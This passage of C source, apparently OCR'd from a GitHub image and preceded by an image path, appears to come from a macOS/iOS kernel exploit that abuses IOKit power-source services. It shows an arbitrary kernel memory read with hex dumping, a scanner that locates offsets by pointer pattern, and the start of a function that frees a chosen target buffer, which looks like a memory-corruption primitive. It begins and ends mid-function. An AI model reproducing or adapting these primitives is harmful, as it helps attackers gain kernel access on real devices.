 ```c
        if(ret == magic) {
            if(addr)
                *addr = data;
#ifdef MEMDBG
            printf("[+] Reading 0x%llx \n",target);
            printf("iter(%d) : kr = %d ,offset = 0x%lx,cnt = %x,retval :%x \n",i,kr,data,cnt,ret);
            // cnt is fine, the same as size
            //DumpHex((void*)data,0x100);

            printf("******** MEMORY READ ******* \n");

#endif
#ifdef MEMDUMP
            DumpHex((void*)data,0x100);
            printf("******** MEMORY READ ******* \n");
#endif

            found = 1;
            goto finish;
        }

    }
finish:
    // free psid allocated by us
    for(int i=0;i<psidCnt;i++) {
        io_ps_release_pspowersource(service_port,psids[i]);
        psids[i] = -1;
    }

    return found;
}

// returns the offset of the current address
uint64_t find_location_by_value(uint64_t addr, uint32_t size,uint64_t value,uint64_t *code)
{
    uint64_t *vals = (uint64_t*)addr;
    uint64_t begin = value & 0xffffffff00000000;
    uint64_t off = 0;

    // we intend to search by +8 reather than +1
    for(int i=0;i<(size/8);i++) {
        if((vals[i] & 0xffffffff00000000) == begin) {
            off = (vals[i] & 0xffff) * 8;
            *code = vals[i];
            break;
        }
    }

    return off;
}

// this will deallocate a target buffer
int deallocate_memory_user(uint64_t target,uint32_t size)
{
    int psidCnt = 2,psid=-1;
    int psids[100] = {-1};
    kern_return_t kr = KERN_SUCCESS;
    int found = 0;
    int iters = 100;
    uint32_t sz = 0x1000;
    for(int i=0;i<psidCnt;i++) {
        psid = -1;
        do_update_ps(service_port, &psid,iters,p,sz);
```